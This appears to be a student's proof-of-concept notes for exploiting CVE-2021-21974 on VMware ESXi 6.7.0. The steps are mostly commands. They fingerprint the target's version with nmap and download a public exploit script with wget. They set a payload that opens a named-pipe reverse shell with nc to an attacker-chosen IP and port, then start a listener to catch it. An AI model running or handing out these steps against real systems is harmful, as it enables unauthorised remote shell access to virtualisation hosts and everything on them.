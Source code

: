 # PROOF OF CONCEPT
> Hamza Ghariani 4 NIDS 1

## 1. vmware version on port 443 must be **ESXi 6.7.0-14320388s**


```bash
nmap --script vmware-version -p 443 IP
```

## 2. Python payload to exploit the cve

```bash
wget https://raw.githubusercontent.com/straightblast/My-PoC-Exploits/master/CVE-2021-21974.py
```

## 3. Set up IP address and Port

```python
shell_cmd = b'mknod /tmp/backpipe p ; /bin/sh 0</tmp/backpipe | nc IP PORT 1>/tmp/backpipe'
```

## 4. Start Listening to port

```bash
nc -lnvp PORT
```
